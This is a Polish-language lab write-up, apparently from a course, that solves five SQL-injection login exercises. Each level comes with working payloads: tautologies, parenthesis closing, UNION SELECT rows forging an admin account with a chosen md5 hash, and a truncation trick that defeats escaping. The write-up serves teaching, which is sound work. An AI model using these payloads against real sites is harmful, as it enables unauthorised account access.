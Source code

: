 ## Ćwiczenia studia
### SQL Injection 1
Pierwsze zadanie to podstawowy SQL Injection, polegający na wstrzyknięciu znaku specjalnego `'`, który zakończy string i umożliwi wstrzyknięcie dodatkowej logiki.   
Przykładowe rozwiązania:  
```
' or '1'='1
' or 1-- x
' or 1#
```

### SQL Injection 2
Drugie zadanie polega na dodatkowym domknięciu nawiasu `)`. Należy wstrzyknąć znaki specjalne `')`, które zakończą string i umożliwią wstrzyknięcie dodatkowej logiki.   
Przykładowe rozwiązania:  
```
') or (username='admin
') or username='admin'-- x
') or username='admin'#
```

### SQL Injection 3
Trzecie zadanie jest identyczne jak poprzednie, z wyjątkiem tego, że baza danych jest pusta. Wymaga to zastosowania techniki `UNION SELECT`, która zwróci z zapytania dane, oryginalnie nieistniejące w bazie danych.  
Przykładowe rozwiązania:  
```
') union select ('admin
') union select 'admin'-- x
') union select 'admin'#

```

### SQL Injection 4
Czwarte zadanie, podobnie jak poprzednie, wymaga zastosowania techniki `UNION
SELECT`, która zwróci z zapytania NOWEGO (nieistniejącego w bazie) użytkownika admin z kontrolowanym przez nas skrótem md5 jego hasła. Kod php po znalezieniu istniejącego użytkownika w bazie, liczy skrót md5 z wpisanego w formularzu hasła i porównuje z tym zwróconym z bazy– oba muszą być identyczne, ale też oba kontrolujemy!  
Przykładowe rozwiązanie:  
```
Użytkownik:
" union select "admin",md5("x")#
Hasło: x
```

### SQL Injection 5
Piąte zadanie dodaje przed znakami specjalnymi (tj. `'`, `"`, `\`) ukośnik `\`, przez co stają się zwykłymi znakami wewnątrz stringa, następnie ucina cały string do 10 znaków.  
Aby rozwiązać zadanie, należy w nazwie użytkownika na 10-tej pozycji podać znak `\` (zostanie zamieniony na `\\`) i wykorzystać fakt, że nazwa użytkownika jest ucinana do 10 znaków (bezpieczny ciąg `\\` zostanie z powrotem przycięty do niebezpiecznego `\` i wyescapuje następny znak– `'` zamykający string!).  
Przykładowe rozwiązanie:  
```
Użytkownik: 123456789\
Hasło: or 1-- x
```
